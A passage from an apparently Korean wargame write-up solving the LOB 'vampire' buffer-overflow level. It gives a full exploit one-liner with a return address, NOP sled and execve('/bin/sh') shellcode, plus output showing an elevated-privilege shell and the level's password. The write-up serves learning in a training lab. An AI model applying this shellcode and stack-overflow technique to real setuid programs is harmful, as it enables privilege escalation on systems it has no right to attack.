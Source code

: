 이거 ㄹㅇ ??? 했따. lob 어렵네;; 근데 생각해보니 스택 구조를 보면 인자가 메인 스택 프레임보다 밑에 있으니(큰 주소) 인자를 졸라 많이 주면 메인 스택 프레임이 올라가게 된다. 한 0x10000 정도주면 올라가는듯.

아니 처음에는 0x90 개 많이 주고 뒤에 쉘코드 붙여서 할라했는데 0x90 이 녀석들 중간에 뜬금없이 0x00 이 존재했다. ;; 이게 뭔.. 그래서 으아아ㅡㅏ앙으ㅏㅢ 하다가 두 번째 인자를 베리 big하게 주고 ret 뒤에 비교적 작은 nop sled shellcode를 올려서 했음. 근데 이거도 쉘코드 이상한거로 계속해서 내 멘탈과 시간을 날려버림.

으ㅡ아ㅏ으ㅏ아

```shell
[troll@localhost troll]$ ./vampire `python -c 'print "\x90"*44+"\x40\xfa\xfe\xbf"+"\x90"*0x100+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80"+" "+"\x90"*0x10000'`
@򿐐1󿿐h//shh/bin⏓ᙰ
                ̀ 
bash$ id
uid=508(troll) gid=508(troll) euid=509(vampire) egid=509(vampire) groups=508(troll)
bash$ my-pass
euid = 509
music world
```



아까 봤던 Stack Layout 구조 다시 소환

> 참고! Stack Layout https://www.win.tue.nl/~aeb/linux/hh/stack-layout.html
>
> ```shell
> ========================
> LOW ADDRESS
> ------------------------
> local variables of main
> saved registers of main
> return address of main
> argc
> argv
> envp
> stack from startup code
> argc
> argv pointers
> NULL that ends argv[]
> environment pointers
> NULL that ends envp[]
> ELF Auxiliary Table
> argv strings
> environment strings
> program name
> NULL
> ------------------------
> HIGH ADDRESS
> ========================
> ```



